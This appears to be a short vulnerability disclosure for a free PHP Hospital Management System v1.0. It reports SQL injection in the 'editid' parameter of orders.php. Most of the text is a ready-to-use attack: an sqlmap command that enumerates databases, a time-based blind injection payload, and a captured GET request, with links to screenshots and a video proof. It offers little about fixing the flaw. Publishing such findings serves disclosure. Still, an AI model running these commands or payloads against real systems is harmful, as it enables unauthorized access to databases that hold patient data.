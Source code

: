 **[Hospital-Management-System v1.0-SQLi-4](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![图片](https://user-images.githubusercontent.com/23294478/170830210-b80cd219-f5a3-44e8-9f28-256bc3fe9646.png)

### Description:
---
The vulnerability page is ```orders.php```

```http://your-ip/HMS/orders.php```


Hospital-Management-System v1.0  

The ```editid``` parameter in the ```orders.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -u "http://your-ip/hms/orders.php?editid=1" --random-agent  --dbs

[+] Payloads:

```
Parameter: editid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: editid=1' AND (SELECT 7774 FROM (SELECT(SLEEP(5)))puHE) AND 'zVYe'='zVYe
```

[+]GET request package

```
GET /hms/orders.php?editid=1 HTTP/1.1
Host: 192.168.74.136
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sbgmgg8q26ri1tmnqfv7poto25
Upgrade-Insecure-Requests: 1


```
### In action:
---

![图片](https://user-images.githubusercontent.com/23294478/170830203-c38d5d20-caa9-4b9d-b6c3-aa8a8bd0e1eb.png)

### Proof and Exploit:
---

https://user-images.githubusercontent.com/23294478/170830188-02e17d49-ac75-4e0e-a6fe-1f32efe93890.mp4


